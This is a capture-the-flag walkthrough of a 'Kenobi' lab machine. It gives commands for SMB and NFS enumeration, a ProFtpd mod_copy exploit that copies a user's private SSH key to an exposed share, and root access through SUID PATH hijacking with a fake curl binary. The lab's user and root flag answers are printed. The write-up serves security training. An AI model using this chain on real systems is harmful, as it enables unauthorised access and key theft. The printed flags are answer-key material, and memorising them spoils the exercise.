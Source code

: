 # Kenobi

### Deploy the vulnerable machine

**Scan the machine with nmap, how many ports are open?**

`nmap -sC -v <TARGET-IP> -oN kenobi-nmap`

[Scan results](./kenobi-nmap)

7

### Enumerating Samba for shares

**Using the command above, how many shares have been found?**

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <TARGET-IP>`

[Scan results](./kenobi-nmap-smb-enum)

3

**Connect to the share and list the files on it. What is the file you can see?**

`smbclient //<TARGET-IP>/anonymous`

log.txt

To recursively download the SMB share, run `smbget -R smb://<TARGET-IP>/anonymous`

The log has a few useful things, information generated for Kenobi when generating an SSH key 
for the user and information about the ProFtpd server.

**What port is FTP running on?**

21

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is 
just a server that converts remote procedure call (RPC) program number into universal 
addresses. When an RPC service is started, it tells rpcbind the address at which it is 
listening and the RPC program number its prepared to serve. 

The nmap script scan (-sC) shows that port 111 is acces to a network file system (NFS).

Use `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <TARGET-IP>`

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-31 09:38 GMT
Nmap scan report for 10.10.134.88
Host is up (0.0088s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds

```

**What mount can we see?**

/var

### Gain initail access with ProFtpd

Connect to the machine on FTP port 21 with netcat

`nc <TARGET-IP> 21`

**What is the version?**

1.3.5

Use searchsploit to find any exploits for this version

`searchsploit proftpd`

**How many exploits are there for the ProFtpd version running?**

4

The exploits listed for this version reference the mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy 
files/directories from one place to another on the server. Any unauthenticated client can 
leverage these commands to copy files from any part of the filesystem to a chosen 
destination.

Copy Kenobi's SSH key to the NFS directory /var/tmp

```
nc <TARGET-IP> 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<TARGET-IP>]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Mount the /var/tmp directory to our machine anmd copy the SSH key

```
mkdir /mnt/kenobiNFS
mount <TARGET-IP>:/var /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
```

Change the permissions and use it to log in as kenobi

```
chmod 600 id_rsa
ssh -i id_rsa kenobi@<TARGET-IP>
```

**What is Kenobi's user flag?**

d0b0f3f53b6caa532a83915e19224899

### Privilege Escalation with PATH variable manuipulation

Find the binaries with the SUID bit set `find / -perm -u=s -type f 2>/dev/null`

**What file looks particularly out of the ordinary?**

/usr/bin/menu

**Run the binary, how many options appear?**

3

Run strings on the binary to find any human readable strings within.

```
curl -I localhost
uname -r
ifconfig
```

The binaries are executed without the absolute path and are therefore vulnerable to PATH 
manipulation. 

When you echo the PATH variable it shows that the first directory it will reference is 
/home/kenobi/bin. Run `mkdir /home/kenobi/bin` then create a malicious curl binary and 
place it in the /home/kenobi/bin directory.

```
echo /bin/sh > curl
chmod 777 curl 
mv curl /home/kenobi/bin
```

Run /usr/bin/menu and choose option 1 to gain a root shell

**What is the root flag?**

177b3cd8562289f37382721c28381f02
